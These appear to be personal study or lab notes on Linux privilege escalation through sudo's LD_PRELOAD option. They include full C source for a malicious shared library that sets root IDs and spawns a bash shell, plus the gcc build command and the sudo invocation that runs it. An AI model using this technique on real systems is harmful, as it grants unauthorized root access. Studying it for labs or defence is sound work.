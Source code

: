 # Identification
---
![[Pasted image 20250428152550.png]]
- **Preloading**: ==Preloads a shared library before anything else is loaded.== 
	- Meaning we run sudo with `LD_PRELOAD`and ==we can run it on any command that we want.== 
	- We will PRELOAD ==our own library before anything else.==

# Exploitation
---
- Make a malicious library: (`shell.c`)
  
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD"); // Unset env variable LD_PRELOAD
	setgid(0); // Set groupid to 0, i.e. root
	setuid(0); // Set userid to 0, i.e. root
	system("/bin/bash"); // Execute /bin/bash
}
```
- Compile:
	- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
	- ![[Pasted image 20250428153253.png]]
- `sudo LD_PRELOAD=~/shell.so apache2`
	- Needs **full path of `shell.so`**
	- At the end, **we need something that runs as sudo**
	- ![[Pasted image 20250428153435.png]]